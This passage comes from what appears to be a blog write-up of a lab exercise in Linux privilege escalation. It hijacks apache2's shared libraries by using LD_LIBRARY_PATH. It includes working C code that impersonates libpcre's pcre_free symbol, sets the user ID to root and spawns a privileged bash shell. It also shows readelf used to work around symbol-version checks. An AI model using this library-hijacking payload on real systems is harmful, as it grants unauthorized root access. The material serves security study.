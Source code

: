 Probably in the runtime, there is a call to `pcre_free` that suppose to be in `libpcre.so.3`. Let's fix that.

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

int pcre_free;
```

Voilà.

![2021-09-26-11-50-23.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632735088662/UC2O4Y5Jr.png)


> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:  
>✔ Automatic GitHub Backup  
>✔ Write in Markdown  
>✔ Free domain mapping  
>✔ CDN hosted images  
>✔ Free built-in newsletter service  
>✔ Built-in blog monetizing through the Sponsor feature  
> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

[Back to top](#contents) ⤴

# Library hijacking and versions dependency

If we forgot to skip `-nostartfiles` flag during compilation, hijacker fails during execution of `apache2`.

> Yeah, it _happened_ to me so that's why I've got this section :)

![2021-09-26-10-14-42.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632735079489/v-nvssUlO.png)

That's because `apache2` binary was compiled with version requirements for the some libraries. This can be easily looked up with `readelf`.

```
$ readelf -V /usr/sbin/apache2
```

![2021-09-26-10-18-36.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632735133240/sHzQJe4Kn.png)

As you can see here, both `libpthread.so.0` and `libc.so.6` are required to have version definition included. Let's then use a different library, not specified in the `apache2` version sections.
